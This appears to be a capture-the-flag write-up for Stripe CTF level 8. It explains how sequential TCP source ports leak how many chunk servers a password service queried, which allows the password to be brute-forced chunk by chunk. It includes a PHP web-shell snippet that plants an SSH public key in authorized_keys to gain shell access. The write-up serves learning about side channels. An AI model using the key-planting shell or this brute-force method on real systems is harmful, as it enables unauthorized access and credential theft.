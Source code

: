 ```
[127.0.0.1:58877:1] Making request to chunk server ('127.0.0.1', 14437) (remaining chunk servers: [])
[127.0.0.1:58881:1] Received payload: '{"password_chunk": "000"}'
[127.0.0.1:58881:1] Request already finished!
[127.0.0.1:58881:1] Responding with: '{"success": false}\n'
[127.0.0.1:58877:1] Going to wait 0.0 seconds before responding
[127.0.0.1:58877:1] Request already finished!
[127.0.0.1:58877:1] Responding with: '{"success": false}\n'
[127.0.0.1:58877:1] Sending webhook to (u'localhost', 1111): {'success': False}
Releasing lock
```
The observation is this: the logs are showing you the TCP source port (i.e. "[127.0.0.1:**58877**:1] Sending webhook to (u'localhost', 1111): {'success': False}") are sequential. 

Knowing that source ports are sequential allows us to know how many chunk servers the PasswordDB server queried before responding.  If the source port for the response to our request is N, and the source port for the request to the webhook is N+2, only 1 chunk server was queried.  If the request to the webhook has a source port of N+3, then 2 chunk servers were queried.

The actual PasswordDB is running behind Apache, so the source port for the response won't be dependent on Twisted.  To solve that, we send two requests with the same guess and look at the difference in source ports between sequential requests to our webhook.  Now, we can bruteforce the 12 digit password by bruteforcing 4 3-digit chunks individually, which is doable in a reasonable amount of time.

PasswordDB can only make outbound requests to other Stripe servers so we have to run a script from somewhere on the Stripe server.  Luckily we can get ssh access to the level 2 server by uploading a php script that puts a public key in ~/.authorized_hosts:

```php
<?php
$output = `echo "ssh-rsa MY_PUBLIC_KEY ssh" > ../../.ssh/authorized_keys`;
echo "<pre>$output</pre>";
?>
```
![Level 8 Shell](/assets/images/stripe-ctf/level8-shell.png)

To brute force the password chunk by chunk, we send two requests with the same guess to PasswordDB and look at the difference in source ports between responses to our webhook.  If the difference when guessing the first chunk is 3, then PasswordDB made 2 requests between responding to us, and thus queried the 2nd chunk server.  Likewise if the difference when guessing the 2nd chunk is 4, and guessing the 3rd chunk is 5.  I found that due to what's probably other users on the same challenge, I would sometimes get source port differences that were wildly off.  I solved this sub optimally: any time that I have a source port difference greater than what I expect I wait 5 seconds and try again.  If I keep getting source port differences greater than the expected 5 times in a row, I probably correctly guessed a chunk.  This is a very suboptimal way to do it, and my script took a couple of hours to finish.
